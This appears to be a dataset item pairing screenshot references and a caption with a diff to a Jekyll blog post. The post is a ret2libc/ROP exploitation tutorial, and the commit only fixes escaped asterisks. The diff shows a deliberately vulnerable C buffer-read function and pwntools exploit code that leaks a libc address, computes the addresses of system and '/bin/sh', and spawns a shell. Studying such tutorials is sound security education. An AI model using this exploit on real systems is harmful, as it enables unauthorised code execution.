

Before and after one commit to pench3r/OldBlog, a Jekyll site: the page built from _posts/2018-03-30-ret2libc-rop.md, in a window 1280 px wide and 1400 px high, scrolled down 6334 px. Shown: the part 503-990 px from the top of the window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2018-03-30-ret2libc-rop.md
+++ b/_posts/2018-03-30-ret2libc-rop.md
@@ -21,7 +21,7 @@ ps:对于该篇文章使用的技术，最重要的一点基础是，清楚函
         read(STDIN_FILENO, msg, 256);
     }
 
-    int main(int argc, char \*argv[]) {
+    int main(int argc, char *argv[]) {
         vul_func();
         write(STDOUT_FILENO,"ROP test\n", 9);
         return 0;
@@ -167,10 +167,10 @@ write_plt_got_addr = elf.got['write']
 print "wirte plt got addr " + hex(write_plt_got_addr)
 vul_func = 0x0804841b
 
-payload = "A"\*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)
+payload = "A"*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)
 print payload
 
-print "[\*] begin to leak write_addr function address...\n"
+print "[*] begin to leak write_addr function address...\n"
 p.send(payload)
 
 write_addr = u32(p.recv(4))
@@ -239,9 +239,9 @@ write_plt_got_addr = elf.got['write']
 print "wirte plt got addr " + hex(write_plt_got_addr)
 vul_func = 0x0804841b
 
-payload = "A"\*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)
+payload = "A"*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)
 
-print "[\*] begin to leak write_addr function address...\n"
+print "[*] begin to leak write_addr function address...\n"
 p.send(payload)
 
 write_addr = u32(p.recv(4))
@@ -252,7 +252,7 @@ print "[+] the system_addr function address is " + hex(system_addr)
 binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
 print "[+] the /bin/sh str address is " + hex(binsh_addr)
 
-print "[\*] begin to get shell...\n"
+print "[*] begin to get shell...\n"
 payload2 = "A"\*payload_len + p32(system_addr) + p32(vul_func) + p32(binsh_addr)
 
 p.send(payload2)
```
